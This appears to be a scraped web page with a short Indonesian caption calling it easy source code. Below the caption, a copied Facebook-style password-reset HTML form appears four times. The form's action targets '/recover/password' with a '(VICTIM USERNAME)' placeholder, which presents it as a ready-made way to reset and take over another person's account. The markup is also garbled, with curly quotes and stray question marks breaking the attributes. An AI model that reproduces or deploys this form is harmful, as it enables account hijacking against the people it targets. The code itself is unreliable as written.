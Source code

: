 tanpa ribet
gak bikin pusing







<form method=”post” action=”/recover/password?u=(VICTIM USERNAME)&n=389548? onsubmit=”return window.Event && Event.__inlineSubmit && Event.__inlineSubmit(this,event)” id=”u_0_4?><input type=”hidden” name=”lsd” value=”AVoH0gpvlk4? autocomplete=”off”><div class=”mvl ptm uiInterstitial uiInterstitialLarge uiBoxWhite”><div class=”uiHeader uiHeaderBottomBorder mhl mts uiHeaderPage interstitialHeader”><div class=”clearfix uiHeaderTop”><div class=”rfloat _ohf”><h2 class=”accessible_elem”>Choose a new password</h2><div class=”uiHeaderActions”></div></div><div><h2 class=”uiHeaderTitle” aria-hidden=”true”>Choose a new password</h2></div></div></div><div class=”phl ptm uiInterstitialContent”><div class=”mvm uiP fsm”>A strong password is a combination of letters and punctuation marks. It must be at least 6 characters long.</div><table class=”uiInfoTable” role=”presentation”><tbody><tr class=”dataRow”><th class=”label”><label for=”password_new”>New Password</label></th><td class=”data”><input type=”password” class=”passwordinput” id=”password_new” name=”password_new” tabindex=”1? autocomplete=”off”><label class=”mls uiButton” for=”u_0_0?><input value=”?” onclick=”show_pwd_help(); return false;” tabindex=”3? type=”button” id=”u_0_0?></label><div id=”password_new_status”></div></td></tr><tr class=”dataRow”><th class=”label”><label for=”password_confirm”>Confirm Password</label></th><td class=”data”><input type=”password” class=”passwordinput” id=”password_confirm” name=”password_confirm” tabindex=”2? autocomplete=”off”><div id=”password_confirm_status”></div></td></tr></tbody></table><div class=”mvl”><div class=”mvm”>To make sure your account’s secure, we can log you out of any other computers and phones. You can log back in with your new password.</div><div class=”mvm”><div class=”uiInputLabel clearfix uiInputLabelLegacy”><input type=”radio” checked=”1? name=”reason” value=”kill_sessions” onclick=”CSS.hide(ge(“chpw_survey_hacked_warn&quotWink)” class=”uiInputLabelInput uiInputLabelRadio” id=”u_0_1?><label for=”u_0_1? class=”uiInputLabelLabel”>Log me out of other devices</label></div><div class=”uiInputLabel clearfix uiInputLabelLegacy”><input type=”radio” name=”reason” value=”keep_sessions” onclick=”CSS.show(ge(“chpw_survey_hacked_warn&quotWink)” class=”uiInputLabelInput uiInputLabelRadio” id=”u_0_2?><label for=”u_0_2? class=”uiInputLabelLabel”>Keep me logged in</label></div></div><div class=”mtm hidden_elem” id=”chpw_survey_hacked_warn” style=”color:red;”>If your account was hacked, please select “Log me out of other devices”</div></div></div><div class=”uiInterstitialBar uiBoxGray topborder”><div class=”clearfix”><div class=”rfloat _ohf”><label class=”uiButton uiButtonConfirm” id=”btn_continue” for=”u_0_3?><input value=”Continue” name=”btn_continue” type=”submit” id=”u_0_3?></label><a class=”uiButton” href=”/” role=”button” name=”reset_action”><span class=”uiButtonText”>Cancel</span></a></div><div class=”pts”></div></div></div></div></form>
<form method=”post” action=”/recover/password?u=(VICTIM USERNAME)&n=389548? onsubmit=”return window.Event && Event.__inlineSubmit && Event.__inlineSubmit(this,event)” id=”u_0_4?><input type=”hidden” name=”lsd” value=”AVoH0gpvlk4? autocomplete=”off”><div class=”mvl ptm uiInterstitial uiInterstitialLarge uiBoxWhite”><div class=”uiHeader uiHeaderBottomBorder mhl mts uiHeaderPage interstitialHeader”><div class=”clearfix uiHeaderTop”><div class=”rfloat _ohf”><h2 class=”accessible_elem”>Choose a new password</h2><div class=”uiHeaderActions”></div></div><div><h2 class=”uiHeaderTitle” aria-hidden=”true”>Choose a new password</h2></div></div></div><div class=”phl ptm uiInterstitialContent”><div class=”mvm uiP fsm”>A strong password is a combination of letters and punctuation marks. It must be at least 6 characters long.</div><table class=”uiInfoTable” role=”presentation”><tbody><tr class=”dataRow”><th class=”label”><label for=”password_new”>New Password</label></th><td class=”data”><input type=”password” class=”passwordinput” id=”password_new” name=”password_new” tabindex=”1? autocomplete=”off”><label class=”mls uiButton” for=”u_0_0?><input value=”?” onclick=”show_pwd_help(); return false;” tabindex=”3? type=”button” id=”u_0_0?></label><div id=”password_new_status”></div></td></tr><tr class=”dataRow”><th class=”label”><label for=”password_confirm”>Confirm Password</label></th><td class=”data”><input type=”password” class=”passwordinput” id=”password_confirm” name=”password_confirm” tabindex=”2? autocomplete=”off”><div id=”password_confirm_status”></div></td></tr></tbody></table><div class=”mvl”><div class=”mvm”>To make sure your account’s secure, we can log you out of any other computers and phones. You can log back in with your new password.</div><div class=”mvm”><div class=”uiInputLabel clearfix uiInputLabelLegacy”><input type=”radio” checked=”1? name=”reason” value=”kill_sessions” onclick=”CSS.hide(ge(“chpw_survey_hacked_warn&quotWink)” class=”uiInputLabelInput uiInputLabelRadio” id=”u_0_1?><label for=”u_0_1? class=”uiInputLabelLabel”>Log me out of other devices</label></div><div class=”uiInputLabel clearfix uiInputLabelLegacy”><input type=”radio” name=”reason” value=”keep_sessions” onclick=”CSS.show(ge(“chpw_survey_hacked_warn&quotWink)” class=”uiInputLabelInput uiInputLabelRadio” id=”u_0_2?><label for=”u_0_2? class=”uiInputLabelLabel”>Keep me logged in</label></div></div><div class=”mtm hidden_elem” id=”chpw_survey_hacked_warn” style=”color:red;”>If your account was hacked, please select “Log me out of other devices”</div></div></div><div class=”uiInterstitialBar uiBoxGray topborder”><div class=”clearfix”><div class=”rfloat _ohf”><label class=”uiButton uiButtonConfirm” id=”btn_continue” for=”u_0_3?><input value=”Continue” name=”btn_continue” type=”submit” id=”u_0_3?></label><a class=”uiButton” href=”/” role=”button” name=”reset_action”><span class=”uiButtonText”>Cancel</span></a></div><div class=”pts”></div></div></div></div></form>
<form method=”post” action=”/recover/password?u=(VICTIM USERNAME)&n=389548? onsubmit=”return window.Event && Event.__inlineSubmit && Event.__inlineSubmit(this,event)” id=”u_0_4?><input type=”hidden” name=”lsd” value=”AVoH0gpvlk4? autocomplete=”off”><div class=”mvl ptm uiInterstitial uiInterstitialLarge uiBoxWhite”><div class=”uiHeader uiHeaderBottomBorder mhl mts uiHeaderPage interstitialHeader”><div class=”clearfix uiHeaderTop”><div class=”rfloat _ohf”><h2 class=”accessible_elem”>Choose a new password</h2><div class=”uiHeaderActions”></div></div><div><h2 class=”uiHeaderTitle” aria-hidden=”true”>Choose a new password</h2></div></div></div><div class=”phl ptm uiInterstitialContent”><div class=”mvm uiP fsm”>A strong password is a combination of letters and punctuation marks. It must be at least 6 characters long.</div><table class=”uiInfoTable” role=”presentation”><tbody><tr class=”dataRow”><th class=”label”><label for=”password_new”>New Password</label></th><td class=”data”><input type=”password” class=”passwordinput” id=”password_new” name=”password_new” tabindex=”1? autocomplete=”off”><label class=”mls uiButton” for=”u_0_0?><input value=”?” onclick=”show_pwd_help(); return false;” tabindex=”3? type=”button” id=”u_0_0?></label><div id=”password_new_status”></div></td></tr><tr class=”dataRow”><th class=”label”><label for=”password_confirm”>Confirm Password</label></th><td class=”data”><input type=”password” class=”passwordinput” id=”password_confirm” name=”password_confirm” tabindex=”2? autocomplete=”off”><div id=”password_confirm_status”></div></td></tr></tbody></table><div class=”mvl”><div class=”mvm”>To make sure your account’s secure, we can log you out of any other computers and phones. You can log back in with your new password.</div><div class=”mvm”><div class=”uiInputLabel clearfix uiInputLabelLegacy”><input type=”radio” checked=”1? name=”reason” value=”kill_sessions” onclick=”CSS.hide(ge(“chpw_survey_hacked_warn&quotWink)” class=”uiInputLabelInput uiInputLabelRadio” id=”u_0_1?><label for=”u_0_1? class=”uiInputLabelLabel”>Log me out of other devices</label></div><div class=”uiInputLabel clearfix uiInputLabelLegacy”><input type=”radio” name=”reason” value=”keep_sessions” onclick=”CSS.show(ge(“chpw_survey_hacked_warn&quotWink)” class=”uiInputLabelInput uiInputLabelRadio” id=”u_0_2?><label for=”u_0_2? class=”uiInputLabelLabel”>Keep me logged in</label></div></div><div class=”mtm hidden_elem” id=”chpw_survey_hacked_warn” style=”color:red;”>If your account was hacked, please select “Log me out of other devices”</div></div></div><div class=”uiInterstitialBar uiBoxGray topborder”><div class=”clearfix”><div class=”rfloat _ohf”><label class=”uiButton uiButtonConfirm” id=”btn_continue” for=”u_0_3?><input value=”Continue” name=”btn_continue” type=”submit” id=”u_0_3?></label><a class=”uiButton” href=”/” role=”button” name=”reset_action”><span class=”uiButtonText”>Cancel</span></a></div><div class=”pts”></div></div></div></div></form>
<form method=”post” action=”/recover/password?u=(VICTIM USERNAME)&n=389548? onsubmit=”return window.Event && Event.__inlineSubmit && Event.__inlineSubmit(this,event)” id=”u_0_4?><input type=”hidden” name=”lsd” value=”AVoH0gpvlk4? autocomplete=”off”><div class=”mvl ptm uiInterstitial uiInterstitialLarge uiBoxWhite”><div class=”uiHeader uiHeaderBottomBorder mhl mts uiHeaderPage interstitialHeader”><div class=”clearfix uiHeaderTop”><div class=”rfloat _ohf”><h2 class=”accessible_elem”>Choose a new password</h2><div class=”uiHeaderActions”></div></div><div><h2 class=”uiHeaderTitle” aria-hidden=”true”>Choose a new password</h2></div></div></div><div class=”phl ptm uiInterstitialContent”><div class=”mvm uiP fsm”>A strong password is a combination of letters and punctuation marks. It must be at least 6 characters long.</div><table class=”uiInfoTable” role=”presentation”><tbody><tr class=”dataRow”><th class=”label”><label for=”password_new”>New Password</label></th><td class=”data”><input type=”password” class=”passwordinput” id=”password_new” name=”password_new” tabindex=”1? autocomplete=”off”><label class=”mls uiButton” for=”u_0_0?><input value=”?” onclick=”show_pwd_help(); return false;” tabindex=”3? type=”button” id=”u_0_0?></label><div id=”password_new_status”></div></td></tr><tr class=”dataRow”><th class=”label”><label for=”password_confirm”>Confirm Password</label></th><td class=”data”><input type=”password” class=”passwordinput” id=”password_confirm” name=”password_confirm” tabindex=”2? autocomplete=”off”><div id=”password_confirm_status”></div></td></tr></tbody></table><div class=”mvl”><div class=”mvm”>To make sure your account’s secure, we can log you out of any other computers and phones. You can log back in with your new password.</div><div class=”mvm”><div class=”uiInputLabel clearfix uiInputLabelLegacy”><input type=”radio” checked=”1? name=”reason” value=”kill_sessions” onclick=”CSS.hide(ge(“chpw_survey_hacked_warn&quotWink)” class=”uiInputLabelInput uiInputLabelRadio” id=”u_0_1?><label for=”u_0_1? class=”uiInputLabelLabel”>Log me out of other devices</label></div><div class=”uiInputLabel clearfix uiInputLabelLegacy”><input type=”radio” name=”reason” value=”keep_sessions” onclick=”CSS.show(ge(“chpw_survey_hacked_warn&quotWink)” class=”uiInputLabelInput uiInputLabelRadio” id=”u_0_2?><label for=”u_0_2? class=”uiInputLabelLabel”>Keep me logged in</label></div></div><div class=”mtm hidden_elem” id=”chpw_survey_hacked_warn” style=”color:red;”>If your account was hacked, please select “Log me out of other devices”</div></div></div><div class=”uiInterstitialBar uiBoxGray topborder”><div class=”clearfix”><div class=”rfloat _ohf”><label class=”uiButton uiButtonConfirm” id=”btn_continue” for=”u_0_3?><input value=”Continue” name=”btn_continue” type=”submit” id=”u_0_3?></label><a class=”uiButton” href=”/” role=”button” name=”reset_action”><span class=”uiButtonText”>Cancel</span></a></div><div class=”pts”></div></div></div></div></form>
